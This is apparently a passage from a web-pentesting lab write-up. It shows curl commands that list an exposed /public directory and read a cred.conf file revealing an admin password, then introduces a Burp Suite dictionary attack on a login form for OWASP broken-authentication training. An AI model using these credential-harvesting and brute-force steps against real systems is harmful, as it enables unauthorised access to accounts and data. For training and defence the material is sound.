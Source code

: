 `curl -s https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/`:
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /public</title>
 </head>
 <body>
<h1>Index of /public</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/script.gif" alt="[   ]"></td><td><a href="cred.conf">cred.conf📌</a></td><td align="right">2018-08-25 10:59  </td><td align="right"> 56 </td><td>&nbsp;</td></tr> 
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="themes/">themes/</a></td><td align="right">2018-07-20 18:02  </td><td align="right">  - </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.7 (Ubuntu) Server at x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com Port 80</address>
</body></html>
```

`curl -s https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/cred.conf`:
```html
url="?/admin/login"
user:admin
password:$k@d00$#@123456🔑
```

---

## Broken Authentication Attacks

### Attacking Login Forms with Burp Suite

#### Lab Environment

**Vulnerable Bank Portal: Dictionary Attack**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, <u>we will focus on [OWASP A2 Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication) flaws and we will take a look at how to leverage the broken authentication vulnerability on a single page web application</u>.

**Objective**: <u>Leverage the broken authentication vulnerability and access the administrative portal</u>.
